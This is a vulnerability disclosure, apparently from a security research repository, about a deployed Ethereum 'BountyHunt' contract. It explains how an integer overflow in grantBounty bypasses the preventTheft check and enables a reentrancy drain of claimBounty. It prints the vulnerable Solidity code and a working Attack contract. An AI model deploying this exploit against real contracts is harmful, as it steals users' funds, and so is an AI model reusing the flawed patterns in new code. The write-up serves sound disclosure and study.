 BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner use modifier `preventTheft` to prevent attacks. However, there exist an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------
![1.png](./picture/2019-01-13 22-07-02屏幕截图.png "1.png")
